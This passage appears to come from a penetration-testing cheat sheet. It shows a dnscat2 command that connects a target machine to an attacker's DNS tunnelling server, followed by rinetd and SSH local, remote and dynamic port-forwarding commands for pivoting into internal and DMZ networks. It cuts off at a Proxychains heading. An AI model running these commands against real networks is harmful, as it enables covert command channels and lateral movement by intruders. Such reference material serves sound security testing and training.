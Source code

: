 

Target Machine:



```
https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/

dnscat --host <dnscat server_ip>

```
---------------

# Networking, Pivoting and Tunneling

**    Port Forwarding - accept traffic on a given IP address and port and redirect it to a different IP address and port**



```
        apt-get install rinetd

        cat /etc/rinetd.conf
        # bindadress bindport connectaddress connectport
        w.x.y.z 53 a.b.c.d 80
```



**    SSH Local Port Forwarding: supports bi-directional communication channels
**

```
        ssh <gateway> -L <local port to listen>:<remote host>:<remote port>

```


**    SSH Remote Port Forwarding: Suitable for popping a remote shell on an internal non routable network
**

```
        ssh <gateway> -R <remote port to bind>:<local host>:<local port>

```


**    SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT
**

```
        ssh -D <local proxy port> -p <remote port> <target>

```


####    Proxychains - Perform nmap scan within a DMZ from an external computer

